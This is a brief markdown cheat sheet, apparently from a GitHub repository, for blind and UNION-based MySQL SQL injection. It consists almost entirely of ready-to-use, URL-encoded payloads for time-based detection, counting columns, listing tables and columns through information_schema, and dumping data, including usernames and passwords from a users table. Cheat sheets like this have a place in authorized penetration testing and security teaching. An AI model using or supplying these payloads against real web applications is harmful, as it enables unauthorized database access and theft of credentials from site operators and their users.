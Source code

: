 SQL Injection BLIND
===================

CheatSheets
-----------
```
https://www.perspectiverisk.com/mysql-sql-injection-practical-cheat-sheet/
https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/
```

Detection
---------
```sql
'+and+sleep(5)--%20
'+AND+BENCHMARK(100,SHA1(1337))--%20
'+AND+(SELECT+4057+FROM+(SELECT(SLEEP(5)))rYrD)--%20
```

Find Number of Columns
----------------------
```sql
# Monitor Responses for Differences. 
# Order by "1" should show a valid response, increase value until a different response is returned. 
'+order+by+1--%20
'+order+by+1000--%20

# Monitor Responses for Differences. 
'+UNION+SELECT+NULL--%20
'+UNION+SELECT+NULL,NULL--%20
'+UNION+SELECT+NULL,NULL,NULL--%20
'+UNION+SELECT+NULL,NULL,NULL,NULL--%20
```

Get Table Names
------------
```sql
'+union+all+select+1,group_concat(table_name)+from+information_schema.tables+where+table_schema=database()--%20
```

Get Column Names
----------------
```sql
1'+union+all+select+1,group_concat(column_name)+from+information_schema.columns+where+table_schema=database()--%20
```

Get Data from Columns
---------------------
```sql
'+union+all+select+1,group_concat(<columnName1>,<columnName2)+from+users--%20
'+union+all+select+1,group_concat(user,password)+from+users--%20
```
